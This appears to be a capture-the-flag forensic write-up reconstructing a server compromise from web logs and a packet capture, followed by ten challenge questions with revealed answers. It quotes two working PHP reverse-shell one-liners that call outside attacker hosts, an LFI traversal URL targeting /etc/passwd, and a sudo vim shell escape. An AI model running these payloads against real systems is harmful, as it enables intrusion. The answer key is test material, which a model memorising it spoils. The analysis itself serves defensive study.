



## Overview

A newly deployed server triggered unusual network activity alerts. The system was taken offline immediately and preserved for investigation. We have access to the live system and a network packet capture. The goal is to reconstruct the full attack chain — from initial web exploitation through to lateral movement against an internal server.

---

## Investigation

### Initial Web Exploitation

Reviewing the web server access logs, two attack classes stand out against the `backstage[.]sbt` host. The first is a Local File Inclusion (LFI) probe hitting the root `page` parameter with a standard path traversal payload targeting `/etc/passwd`:

```
hxxp[://]backstage[.]sbt/?page=../../../../../../../../etc/passwd
```

More critically, the attacker pivots to Remote File Inclusion (RFI) against `lofi[.]phtml` — the vulnerable page and parameter are `lofi.phtml` and `?page=`. The RFI payload points to a Pastebin-hosted resource:

```
hxxp[://]backstage[.]sbt/content/lofi[.]phtml?page=hxxp[://]pastebin[.]com/raw/ZHNzirhs
```

Following the RFI chain leads to `hxxps[://]pastebin[.]com/raw/cUz0xdLf`, which hosts two PHP reverse shell payloads. The first connects back to `3[.]110[.]135[.]5` on port `25396` via `fsockopen`. The second establishes a named pipe shell routing through an ngrok relay:

```php
<?php $sock=fsockopen("3.110.135.5",25396);exec("/bin/bash <&3 >&3 2>&3"); ?>

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 2.tcp.ngrok.io 19433 >/tmp/f"); ?>
```

DNS records in the PCAP confirm `2.tcp.ngrok.io` resolves to `3[.]128[.]107[.]74`, establishing both public attacker IPs: `3[.]110[.]135[.]5` and `3[.]128[.]107[.]74`.

---

### Privilege Escalation

Once the reverse shell was established, the attacker escalated privileges using a classic GTFOBins sudo escape via vim:
```
sudo vim -c ':!/bin/bash'
````

With root access secured on the jump host (`172[.]31[.]12[.]87`), the attacker had a foothold to move deeper into the network.

---

### Internal Reconnaissance and Lateral Movement

From the compromised host, the attacker discovered an internal server at `172[.]31[.]4[.]129`. To reach it, ports 20 and 21 were forwarded from the jump host to the internal target — tunnelling FTP control and data channels through the compromised machine.

A port scan across the range 1–100 on the internal server revealed three open ports responding to TCP: `21` (FTP), `22` (SSH), and `80` (HTTP) — identified by filtering for destinations with more than one packet transmitted.



---

### FTP Brute Force

With FTP accessible via the forwarded ports, brute force authentication attempts against the internal server originated from `110[.]44[.]125[.]165` — visible in the PCAP as a stream of `530 Permission Denied` responses from `172[.]31[.]12[.]87` back to that IP. The same pattern appears simultaneously against `172[.]31[.]4[.]129` directly, confirming the port forwarding was in play. The successful credential combination was `localadmin:localadmin`. After authenticating, the attacker ran `pwd` — and that was it. No files were retrieved from the FTP server.

---

## IOCs

| Type                          | Value                                   |
| ----------------------------- | --------------------------------------- |
| Attacker IP                   | `3[.]110[.]135[.]5`                     |
| Attacker IP (ngrok relay)     | `3[.]128[.]107[.]74`                    |
| Jump Host (internal)          | `172[.]31[.]12[.]87`                    |
| Internal Victim               | `172[.]31[.]4[.]129`                    |
| C2 Port                       | `25396`                                 |
| Ngrok Relay Port              | `19433`                                 |
| RFI Payload URL               | `hxxps[://]pastebin[.]com/raw/ZHNzirhs` |
| Revshell Payload URL          | `hxxps[://]pastebin[.]com/raw/cUz0xdLf` |
| Vulnerable Page               | `lofi[.]phtml`                          |
| FTP Credentials               | `localadmin:localadmin`                 |
| Attacker IP (FTP brute force) | `110[.]44[.]125[.]165`                  |

<div class="qa-item"> <div class="qa-question-text">Question 1) Review the access logs of the web server. What is the vulnerable page and parameter in the website? (Format: page.extension, parameter)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">lofi.phtml, ?page=</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 2) What are the two IP public addresses belonging to the attacker? (Format: X.X.X.X, X.X.X.X)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">ANSWER</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 3) What port was the attacker listening to on the first IP address? (Format: XXXXX)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">25396</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 4) What software did the attacker use to escalate privilege? (Format: Software/UtilityName)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">vim</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 5) What is the private IP address of the internal server? (Format: X.X.X.X)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">172.31.4.129</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 6) Which two ports were forwarded to access the internal FTP server from the attacker's machine? (Format: Port, Port)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">20, 21</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 7) What is the range of the ports scanned by the attacker on the internal server? (Format: FirstPort, LastPort)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">1, 100</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 8) What ports were open on the internal server? (Format: Port1, Port2, Port3)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">21, 22, 80</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 9) What are the valid credentials that allowed the attacker to gain access to the FTP server? (Format: Username, Password)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">localadmin, localadmin</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 10) What is the first command run by the attacker after connecting to the FTP server? Did the attacker fetch any files from the FTP server? (Format: Command, Yes/No)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">pwd, no</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

